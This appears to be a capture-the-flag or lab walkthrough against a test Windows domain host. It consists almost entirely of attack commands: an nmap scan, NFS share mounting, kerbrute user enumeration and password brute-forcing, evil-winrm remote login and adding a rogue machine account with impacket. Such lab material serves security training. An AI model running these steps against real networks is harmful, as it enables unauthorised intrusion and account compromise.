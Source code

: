 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e9f885fc-46ae-4438-8147-55ddccd9d2bb)

```
nmap -p- 192.168.2.9 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3f135770-5829-4738-8ae3-21ee2b0d72cb)

```
showmount -e 192.168.2.9
sudo mkdir /mnt/it_stuff
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/87e21d95-1046-46f1-a021-7ec017b15afe)

```
sudo mount -t nfs 192.168.2.9:/it_stuff /mnt/it_stuff -o nolock
sudo ls -la /mnt/it_stuff
sudo ls -la /mnt/it_stuff/Scripts
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/edd45ec3-db92-4e59-a9a2-8eb0caac3cd1)

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.9 user.txt
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c648b73b-a853-4d2b-959c-5e1d21192ea7)

```
./kerbrute_linux_amd64 bruteuser -d codeby.cdb --dc 192.168.2.9 generated_passwords.txt valentin.badanov
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/11faab34-a8b6-4690-8585-4c3b01ac054f)

```
evil-winrm -i 192.168.2.9 -u 'valentin.badanov' -p 'PASS'
evil-winrm -i 192.168.2.9 -u 'valentin.badanov_adm' -p 'PASS'
impacket-addcomputer -computer-name 'evilcomputer$' -computer-pass ev1lP@sS -dc-ip 192.168.2.9 odeby.cdb/valentin.badanov_adm:'PASS' -no-add 
```

